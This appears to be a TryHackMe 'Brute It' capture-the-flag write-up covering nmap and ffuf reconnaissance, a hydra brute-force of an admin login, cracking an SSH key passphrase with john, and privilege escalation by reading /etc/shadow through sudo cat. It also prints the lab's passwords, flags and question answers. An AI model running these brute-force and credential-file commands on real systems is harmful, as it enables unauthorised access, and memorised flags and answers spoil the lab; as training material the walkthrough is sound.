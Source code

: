 # Brute It

![logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/648413ba-68d8-4bce-beb7-be79cce9134e)

## Reconnaissance

Let's nmap scan the target to find open ports :

```bash
nmap -sT -sV 10.10.140.109
```

![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/b9f1c508-92b8-4632-9ea2-65ae4c455893)

Ports `80` and `22` is open

* question #1 : How many ports are open? :  `2`

* question #2 : What version of SSH is running? : `OpenSSH 7.6p1`

* question #3 : What version of Apache is running? : `2.4.29`

* question #4 : Which Linux distribution is running? : `ubuntu`

Open a browser and navigate to matchine IP address, there is a default apache page

then we FUZZ the target with ffuff :

```bash
ffuf -w ~/wordlist/raft-medium-directories.txt  -u http://10.10.140.109/FUZZ -fc 403
```

![image](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/9f0755dd-14aa-407a-ab24-447dee18da11)

yes, there is an admin directory which we found with fuzzing

* question #5 : What is the hidden directory? : `/admin`

Next, browse to `/admin` directory :

![login](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/599e9b71-9b59-43e3-a175-f172f4b15a97)

SQLi does not work here, but when you see the page source you find a comment :

```html
<!-- Hey john, if you do not remember, the username is admin -->
```

we can now brute force the login page with `hydra`, to do this we need to find the exact parameters that is being sent to the server

as page source form element shows, two parameters (user, pass) are sent when you submit the form.

so we need to inform hydra with this information :

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.140.109 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -v
```

after a minute or two hydra will find the password for you :

![hydra](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/c1f7e047-4d5c-40f9-8c85-f944bd9ea79b)

now login to the website with `admin:xavier`

after logging in the page shows a flag and a link to download a private key :

![afterlogin](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/0b1827cb-001f-4fbe-b764-9264bc7e5a98)

download the private key which for user "john" and change the permission to `600` :

```bash
chmod 600 john.key
```

if you want to directly connect to machine with this private key, it asks for passphrase of this private key which we don't have it yet.

![ssh](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/ef7b4657-7ef9-4ee4-b766-f339b8a2640d)

so we should use `ssh2john` to brute force the passpharse :

```bash
ssh2john john.key > out.txt
```
and then use this hash text with `john` to find the passphrase :

```bash
john out.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![john](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/a034994e-d45e-4482-a1a7-1840878a5ca9)

## Getting a Shell

Now we can ssh to machine with john private key and `rockinroll` passphrase.

use `ls` to see the `user.txt` file and cat the content to find the flag.

```bash
cat user.txt
THM{a_password_is_not_a_barrier}
```

## Privilege Escalation

To see if any vector exists for privesc, we can use `sudo -l` :

```bash
sudo -l

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

yes, we can use cat as root, to find the root password we can cat the content of `/etc/shadow` :

```bash
sudo /bin/cat /etc/shadow
```

![shadow](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/df472b93-03ca-40a8-a1e8-1c7740515e49)

copy the first line and save it to a file like root.pass and use `john` again to brute force the hash

```bash
john root.pass --wordlist=/usr/share/wordlists/rockyou.txt
```

![br](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e44d6e64-42cc-496c-b7f8-ee97def03ff6)

to find the last flag just cat the root.txt in `/root` :

```bash
sudo /bin/cat /root/root.txt

THM{pr1v1l3g3_3sc4l4t10n}
```
